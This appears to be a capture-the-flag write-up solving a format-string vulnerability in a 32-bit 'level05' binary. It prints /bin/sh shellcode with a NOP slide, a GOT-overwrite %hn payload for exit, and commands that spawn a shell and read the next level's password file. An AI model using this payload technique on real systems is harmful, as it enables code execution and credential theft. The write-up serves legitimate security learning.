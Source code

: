 # Level 05

## Initial Context

- One file: `level05`

## Gathering informations

The program read `stdin`, lowers the input and write it `stdout`.

By looking at the decompiled code, the process sends the buffer to `printf`, allowing a format string attack.
Right after the `printf` call, `exit` is called and can be overwritten using the `Global Offsets Table`.

### Finding the buffer location

First we need to know where the buffer is stored relative to the `printf` call:

```bash
$ for i in $(seq 1 42); do
>     echo -n "$i ";
>     python -c 'print "AAAA %'$i'$x''"' | ./level05;
> done | grep 61616161
10 aaaa 61616161
```

We can access the buffer at the `10`th parameter.

### Storing the payload

Then, since we cannot send the payload to `stdin` (because of the `toupper()`), we need to store it to the environment variables.
Storing it here is unstable since environment variables can move in memory.

To mitigate that, we can use a [NOP slide](https://en.wikipedia.org/wiki/NOP_slide) to give us more room.

```bash
export SHELLCODE=`python -c 'print "\x90" * 1024 + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```

Now we need to find the address of the `SHELLCODE` environment variable when a program is running.
For that, we can write a small utility ([full code](./Ressources/getenv.c)):

```c
void main(int argc, char const* argv[])
{
    char const *ptr = getenv(argv[1]);
    printf("address: %p\n", ptr);
}
```

```bash
$ gcc getenv.c -o getenv -m32
$ ./getenv SHELLCODE
address: 0xffffd4f8
```

To avoid small shifts in memory, let's add `512 bytes` (half of the NOP slide).
The address is now: `0xffffd6f8`

We cannot write `4294956792 bytes` directly via `printf` as it exceed `INT_MAX`.
But we can send both `0xffff` and `0xd6f8` as two shorts.

### Locate `exit`'s GOT

And last, we need to find `exit`'s GOT location:

```
$ gdb ./level05 
(gdb) disass 'exit@plt'
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
...
(gdb) x 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376
```

`exit`'s GOT is located at `0x080497e0`.

Since we need to write two shorts, the addresses will be:
- `0x080497e0` (or `e0 97 04 08` in LE)
- and `0x080497e2` (or `e2 97 04 08` in LE)

## Solving the Challenge

As previously stated, we need to overwrite `exit` GOT using two shorts.

Since when using `printf`'s `%n` specifier, the value does not reset, we need to take into account that.

The first value we need to write `n bytes` being `d4f8` minus `8 bytes` for the two addresses.

```python
# value itself
0xd6f8 = 55032

# skip two first addresses
55032 - 8 = 55024
```

For the second value, we need to write `n bytes` being the distance between two the shorts.

```python
# value itself
0xffff = 65535

# substract the first value
65535 - 55032 = 10503
```

We can now build the payload:

```python
# exit@got.plt, this will write 4 characters
"\xe0\x97\x04\x08"

# exit@got.plt + 2, this will write 4 characters
+ "\xe2\x97\x04\x08"

# write 55024 dummy characters for a total of 55032
+ "%55024x"

# ask print to store the number of characters written to the 10th parameters, using a short (h)
+ "%10$hn"

# write 10503 dummy characters, for a total of 65535
+ "%10503x"

# ask print to store the number of characters written to the 11th parameters, using a short (h)
+ "%11$hn"
```

We can store it and send it to the vulnerable program:

```bash
$ python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55024x%10$hn" + "%10503x%11$hn"' > /tmp/exploit05
$ cat /tmp/exploit05 - | ./level05
...
whoami
level06
cat /home/users/level06/.pass
<flag>
```

## References

- https://shankaraman.wordpress.com/category/ctf/binary-exploitation/
- https://www.ibm.com/docs/en/i/7.2?topic=functions-printf-print-formatted-characters

